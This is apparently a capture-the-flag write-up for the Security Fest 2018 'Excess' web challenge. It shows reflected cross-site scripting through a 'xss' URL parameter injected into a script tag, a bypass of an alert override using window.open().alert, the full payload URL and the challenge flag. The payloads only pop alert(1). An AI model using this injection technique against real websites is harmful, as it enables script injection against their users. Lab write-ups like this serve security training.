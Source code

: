 # Excess
Category: `web`

Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`

Service: `http://xss1.alieni.se:2999/`

Author: `avlidienbrunn`

Points: `51`

### How to Solve
![Main website](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/main.png)

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same as the website. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a prompt instead.

![Initial payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/initial_payload.png)

The page source indicates that the script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file defined before the payload.

```html
<script src="/static/no_alert_for_you.js"></script>
```

The file `no_alert_for_you.js` overrides the `window.alert` function to a prompt.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We can restore `window.alert` to the default alert function by using the alert function of another window. In this case, we are using the alert function of a new window.

_Note: You may need to enable pop-up._ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` to create a pop-up in the main window instead. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```

![Final payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/final_payload.png)

Enter the link to get the flag.

![Flag](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/flag.png)

**Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`**